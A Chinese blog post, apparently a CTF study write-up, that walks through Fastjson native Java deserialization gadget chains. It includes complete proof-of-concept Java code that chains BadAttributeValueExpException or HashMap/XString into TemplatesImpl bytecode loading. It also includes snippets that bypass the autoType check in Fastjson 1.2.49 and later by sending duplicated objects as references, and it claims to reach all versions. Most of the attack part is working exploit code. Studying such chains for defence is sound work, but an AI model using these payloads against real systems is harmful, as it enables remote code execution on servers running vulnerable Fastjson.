---
title: "Java反序列化之Fastjson原生反序列化"
date: 2025-07-07T10:07:06+08:00
summary: "Java反序列化之Fastjson原生反序列化"
url: "/posts/Java反序列化之Fastjson原生反序列化/"
categories:
  - "javasec"
tags:
  - "javasec"
draft: false
---

# 前言

之前打DASCTF2025上半年赛的时候infer师傅就出了一道java反序列化的题，其中就涉及到一个fastjson反序列化的问题，但是由于自己之前只学了CC链这些，所以赛后复现也比较困难，今天就紧赶慢赶把这个fastjson原生反序列化给学了

参考文章：

https://infernity.top/2025/02/16/fastjson%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/

https://y4tacker.github.io/2023/03/20/year/2023/3/FastJson%E4%B8%8E%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/

https://y4tacker.github.io/2023/04/26/year/2023/4/FastJson%E4%B8%8E%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-%E4%BA%8C/

# 关于Fastjson

Fastjson 作为一个高性能的 Java JSON 库，其核心功能是将 **Java 对象转换为 JSON 字符串**（即`toJSONString`）和将 **JSON 字符串转换为 Java 对象**（即`parseObject`/`parseArray`）。

# Fastjson序列化核心流程

## 1.属性发现规则

Fastjson 会按照以下优先级和规则来发现并获取对象的属性值，以便将其序列化为 JSON 字段：

- **Getter 方法（高优先级）**：这是 Fastjson 发现属性的**主要方式**。它会查找类中所有公共（`public`）的、符合 JavaBean 规范的 Getter 方法。
- **公共字段（Field）**：如果一个类中存在公共（`public`）的字段，Fastjson 也会直接读取这些字段的值。
- **注解**：Fastjson 提供了一系列注解，允许开发者更精细地控制序列化行为。
  - `@JSONField`：可以用于字段或 Getter 方法上，控制属性的名称、顺序、是否序列化、格式化等。例如，`@JSONField(name="userName")` 可以将 `name` 字段序列化为 JSON 中的 `userName`。
  - `@JSONType`：可以用于类上，控制整个类的序列化行为，例如指定序列化的字段、禁用某些字段等。

## 2. 数据类型转换

Fastjson 能够智能地处理各种 Java 数据类型到 JSON 类型的映射：

- **基本类型及其包装类**：`int`, `long`, `boolean`, `double`, `String` 等会直接转换为 JSON 的基本类型（数字、布尔、字符串）。
- **复杂对象**：对象内部的引用类型字段会递归地进行序列化，形成嵌套的 JSON 对象。
- **集合类型**：`List`, `Set`, `Map` 等集合类型会转换为 JSON 数组或 JSON 对象。
- **日期类型**：默认情况下，`java.util.Date` 和 `java.sql.Timestamp` 等日期类型会转换为时间戳（`long` 类型），或者通过 `@JSONField(format="...")` 指定为特定格式的字符串。
- **枚举类型**：枚举的 `name()` 方法或 `toString()` 方法通常会被序列化为字符串。

# 利用与版本限制

市面上主要分fastjson1和fastjson2两种类别

FastJson1版本	<=	1.2.48

FastJson2版本	>=	1.2.49(目前高版本依旧通杀)

# 环境搭建

直接在maven文件里添加

```xml
<dependency>
  <groupId>com.alibaba</groupId>
  <artifactId>fastjson</artifactId>
  <version>1.2.48</version>
</dependency>
```

然后同步项目下载源码就可以了

# FastJson1链子寻找

既然是原生反序列化，那必然是在fastjson包里面的，我们直接去fastjson包中找哪些类实现了Serializable接口就行，最终只找到两个类，JSONArray与JSONObject，并且这两个类都是extends继承了JSON类的，我们拿第一个讲一下，实际上这两个在原生反序列化当中利用方式是相同的。



我们先来看JSONArray类，一整个看下来发现这个类虽然接入了Serializable接口，但是始终没有实现readObject方法的重载，并且在继承的父类JSON中也没有发现有readObject方法，这意味着我们需要从其他类中readObject方法作为入口方法去触发原生反序列化



## 触发getter()方法

### JSON#toString()

注意到在JSON类中的toString()方法能触发toJSONString()方法

```java
    @Override
    public String toString() {
        return toJSONString();
    }

    public String toJSONString() {
        SerializeWriter out = new SerializeWriter();
        try {
            new JSONSerializer(out).write(this);
            return out.toString();
        } finally {
            out.close();
        }
    }
```

这里的话重写了toString()方法，该方法返回toJSONString()方法调用的结果，我们重点来看toJSONString()方法，这个方法是用于将当前对象序列化成JSON字符串，**而这里能调用任意类的getter方法**，例如有些类的`getter`方法是可以造成一些漏洞的，最经典的就是通过触发TemplatesImpl的getOutputProperties方法实现加载任意字节码最终触发恶意方法调用，详细的可以看我之前CB链的文章https://wanth3f1ag.top/2025/07/06/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96CB%E9%93%BE/#0x05%E9%93%BE%E5%AD%90%E5%88%86%E6%9E%90

上面简单的介绍过Fastjson序列化的流程，关于为什么能触发任意类的getter方法请看：

https://y4tacker.github.io/2023/03/20/year/2023/3/FastJson%E4%B8%8E%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/#%E5%A6%82%E4%BD%95%E8%A7%A6%E5%8F%91getter%E6%96%B9%E6%B3%95

那么我们现在需要找一个能触发toString()方法的地方

## 触发toString()方法1

### BadAttributeValueExpException#readObject()

触发toString方法我们也有现成的链，通过BadAttributeValueExpException触发即可

在BadAttributeValueExpException中的readObject方法



这里的话会从对象中读取一个val属性的值，并赋值给valObj变量，那么如果我们能控制这个ois对象中val属性的值为某个类的对象，那么就可以调用该对象的toString()方法，这里的话是可控的，之前在CC5中就用过https://wanth3f1ag.top/2025/06/28/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96CC5%E9%93%BE/#BadAttributeValueExpException-readObject

所以我们的链子就是

## FastJson1最终链子1

```java
BadAttributeValueExpException#readObject()
    ->JSON#toString()
    	->TemplatesImpl#getOutputProperties()
    		CC3链：
    			TemplatesImpl#newTransformer()->
    				TemplatesImpl#getTransletInstance()->
        					TemplatesImpl#defineTransletClasses()->
            					TemplatesImpl#defineClass()->
                					恶意类字节码执行
```

## FastJson1最终POC1

那我们直接写POC

```java
package SerializeChains.fastjsonSer;

import com.alibaba.fastjson.JSONArray;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;

import javax.management.BadAttributeValueExpException;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;

public class FastJsonser01 {
    public static void main(String[] args) throws Exception {

        //CC3中TemplatesImpl的利用链加载恶意类字节码
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_name","a");
        byte[] code = Files.readAllBytes(Paths.get("E:\\java\\JavaSec\\JavaSerialize\\target\\classes\\SerializeChains\\CCchains\\CC3\\POC.class"));
        byte[][] codes = {code};
        setFieldValue(templates,"_bytecodes",codes);
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());

        //触发TemplatesImpl#getOutputProperties()方法
        JSONArray jsonArray = new JSONArray();
        jsonArray.add(templates);

        //触发toString()方法
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);
        setFieldValue(badAttributeValueExpException,"val",jsonArray);

        //序列化和反序列化
        serialize(badAttributeValueExpException);
        unserialize("fastjsonSerialize01.txt");


    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws Exception {
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
    //定义序列化操作
    public static void serialize(Object object) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("fastjsonSerialize01.txt"));
        oos.writeObject(object);
        oos.close();
    }

    //定义反序列化操作
    public static void unserialize(String filename) throws Exception{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
    }
}
```



## 触发toString()方法2

### HashMap#readObject()



在HashMap#readObject()方法中有一个putval方法，跟进putVal，这里调用equals方法



这里的话链子是调用到AbstractMap.equals，在equals中又调用到了XString的equals



### XString#equals()

继续跟进到XString的equals，可以看到可以调用任意类的toString，这里的obj2可以设置为JSONArray



所以最后的触发链子就是

## FastJson1最终链子2

```java
HashMap#readObject() -> XString#equals() -> 任意调#toString() 
```

POC的话暂时还没写出来，后面写了再补

ok啊现在来补一下POC

## FastJson1最终POC2

```java
package SerializeChains.FastjsonNativeSer;

import com.alibaba.fastjson.JSONArray;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.org.apache.xpath.internal.objects.XString;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.HashMap;

import static SerializeChains.JacksonSer.Poc1.getshortclass;

public class FastJsonser01plus2 {
    public static void main(String[] args) throws Exception {
        byte[] code = Files.readAllBytes(Paths.get("E:\\java\\JavaSec\\JavaSerialize\\target\\classes\\SerializeChains\\CCchains\\CC3\\POC.class"));
        Templates templates = (Templates)getTemplates(code);

        //触发TemplatesImpl#getOutputProperties()方法
        JSONArray jsonArray = new JSONArray();
        jsonArray.add(templates);

        //XString.equals
        XString xString = new XString("wanth3f1ag");
        
        HashMap hashmap1 = new HashMap();
        HashMap hashmap2 = new HashMap();
        // 这里的顺序很重要，不然在调用equals方法时可能调用的是JSONArray.equals(XString)
        hashmap1.put("yy",jsonArray);
        hashmap1.put("zZ",xString);
        hashmap2.put("yy",xString);
        hashmap2.put("zZ",jsonArray);
        HashMap map = makeMap(hashmap1,hashmap2);
        serialize(map);
        unserialize("fastjsonSerialize01Plus2.txt");

    }
    //hashmap的put实际上就是，这个具体用法我也不清楚
    public static HashMap<Object, Object> makeMap(Object v1, Object v2 ) throws Exception {
        HashMap<Object, Object> map = new HashMap<>();
        // 这里是在通过反射添加map的元素，而非put添加元素，因为put添加元素会导致在put的时候就会触发RCE，
        // 一方面会导致报错异常退出，代码走不到序列化那里；另一方面如果是命令执行是反弹shell，还可能会导致反弹的是自己的shell而非受害者的shell
        setFieldValue(map, "size", 2); //设置size为2，就代表着有两组
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, null));  //通过此处来设置的0组和1组，我去，破案了
        Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, null));
        setFieldValue(map, "table", tbl);
        return map;
    }
    public static void setFieldValue(Object object, String field_name, Object field_value) throws Exception {
        Class c = object.getClass();
        Field field = c.getDeclaredField(field_name);
        field.setAccessible(true);
        field.set(object, field_value);
    }
    //定义序列化操作
    public static void serialize(Object object) throws Exception{
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("fastjsonSerialize01Plus2.txt"));
        oos.writeObject(object);
        oos.close();
    }

    //定义反序列化操作
    public static void unserialize(String filename) throws Exception{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        ois.readObject();
    }

    //CC3中TemplatesImpl的利用链加载恶意类字节码
    public static Object getTemplates(byte[] bytes) throws Exception{
        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates,"_name","a");
        byte[][] codes = {bytes};
        setFieldValue(templates,"_bytecodes",codes);
        setFieldValue(templates,"_tfactory",new TransformerFactoryImpl());
        return templates;
    }
}
```

## FastJson2链子寻找

FastJson2的版本是从1.2.49开始的，我们改一下maven项目的pom文件

```xml
    <dependency>
      <groupId>com.alibaba</groupId>
      <artifactId>fastjson</artifactId>
      <version>1.2.49</version>
    </dependency>
```

我们看看用之前的POC打的话会出现什么结果



`autoType is not support`这里指明出Fastjson的outoType功能被禁用了，这导致了无法反序列化，这是为什么呢？我们继续往下看

从1.2.49开始，JSONArray以及JSONObject方法开始真正有了自己的readObject方法



由于反序列化的时候readObject的调用是从外到内的，所以内层的JSONArray或者JSONObject对象的readObject方法也会被调用

首先看到一个`SecureObjectInputStream.ensureFields()`这个是一个强制获取私有字段并缓存的方法，通过获取输入流中的类的内部私有属性并缓存到fields数组中

在`SecureObjectInputStream`类当中重写了resolveClass方法，其中调用了checkAutoType方法做类的检查，这样能实现对恶意类的拦截

所以现在我们需要解决的问题是，什么情况下不会调用resolveClass，在`java.io.ObjectInputStream#readObject0`调用中，会根据读到的bytes中tc的数据类型做不同的处理去恢复部分对象

```java
switch (tc) {
                case TC_NULL:
                    return readNull();
                case TC_REFERENCE:
                    return readHandle(unshared);
                case TC_CLASS:
                    return readClass(unshared);
                case TC_CLASSDESC:
                case TC_PROXYCLASSDESC:
                    return readClassDesc(unshared);
                case TC_STRING:
                case TC_LONGSTRING:
                    return checkResolve(readString(unshared));
                case TC_ARRAY:
                    return checkResolve(readArray(unshared));
                case TC_ENUM:
                    return checkResolve(readEnum(unshared));
                case TC_OBJECT:
                    return checkResolve(readOrdinaryObject(unshared));
                case TC_EXCEPTION:
                    IOException ex = readFatalException();
                    throw new WriteAbortedException("writing aborted", ex);
                case TC_BLOCKDATA:
                case TC_BLOCKDATALONG:
                    if (oldMode) {
                        bin.setBlockDataMode(true);
                        bin.peek();             // force header read
                        throw new OptionalDataException(
                            bin.currentBlockRemaining());
                    } else {
                        throw new StreamCorruptedException(
                            "unexpected block data");
                    }
                case TC_ENDBLOCKDATA:
                    if (oldMode) {
                        throw new OptionalDataException(true);
                    } else {
                        throw new StreamCorruptedException(
                            "unexpected end of block data");
                    }
                default:
                    throw new StreamCorruptedException(
                        String.format("invalid type code: %02X", tc));
            }

```

上面的不同case中大部分类都会最终调用`readClassDesc`去获取类的描述符，在这个过程中如果当前反序列化数据下一位仍然是`TC_CLASSDESC`那么就会在`readNonProxyDesc`中触发`resolveClass`

那我们重点关注一下不会调用readClassDesc的分支，不会调用readClassDesc的分支有TC_NULL、TC_REFERENCE、TC_STRING、TC_LONGSTRING、TC_EXCEPTION，string与null这种对我们毫无用处的，exception类型则是解决序列化终止相关。那么就只剩下了reference引用类型了。

### 如何成为引用类型

或许在进行反序列化恢复对象的时候，让我们的恶意类变成引用类型能绕过resolveClass的检查？

首先我们要知道，两个相同的对象在同一个反序列化的过程中只会被反序列化一次。那么我们可以在序列化的时候注入两个相同的 `TemplatesImpl` 对象，第二个 `TemplatesImpl` 对象被封装到 `JSONArray` 中。那么在反序列化我们的 `payload` 时，如果先用正常的 `ObjectInputStream` 反序列化了第一个 `TemplatesImpl` 对象，那么在第二次在 `JSONArray.readObject()` 中，就不会再用 `SecureObjectInputStream` 来反序列化这个相同的 `TemplatesImpl` 对象了，就会绕过`checkAutoType()`的检查！

反序列化时ArrayList先通过readObject恢复TemplatesImpl对象，之后恢复BadAttributeValueExpException对象，在恢复过程中，由于BadAttributeValueExpException要恢复val对应的JSONArray/JSONObject对象，会触发JSONArray/JSONObject的readObject方法，将这个过程委托给`SecureObjectInputStream`，在恢复JSONArray/JSONObject中的TemplatesImpl对象时，由于此时的第二个TemplatesImpl对象是引用类型，通过readHandle恢复对象的途中不会触发resolveClass，由此实现了绕过

**所以用List、Map、Set类型都能成功触发引用绕过**

### FastJson2-POC1(List类型)

其实主要还是在如何避免反序列化的时候内部对象调用`JSONArray.readObject()`时会反序列化我们的templates对象

```java
        //用list去绕过fastjson2
        ArrayList<Object> list = new ArrayList<Object>();
        list.add(templates);
        list.add(badAttributeValueExpException);

        //序列化和反序列化
        serialize(list);
        unserialize("fastjsonSerialize02.txt");
```



当我们写入对象时，会在handles这个哈希表中建立从对象到引用的映射



当再次写入同一对象的时，会先在handles这个hash表中查到了映射，那么就会通过writeHandle将重复对象以引用类型写入

因此我们就可以利用这个思路构建攻击的payload了。

### FastJson2-POC2(Map类型)

```java
        //用Map去绕过fastjson2
        HashMap map = new HashMap();
        map.put(templates, badAttributeValueExpException);

        //序列化和反序列化
        serialize(map);
        unserialize("fastjsonSerialize03.txt");
```



### FastJson2-POC3(Set类型)

```java
        //用Set去绕过fastjson2
        Set set = new HashSet();
        set.add(templates);
        set.add(badAttributeValueExpException);

        //序列化和反序列化
        serialize(set);
        unserialize("fastjsonSerialize04.txt");
```



**至此 fastjson 全版本实现了原生反序列化利用！**
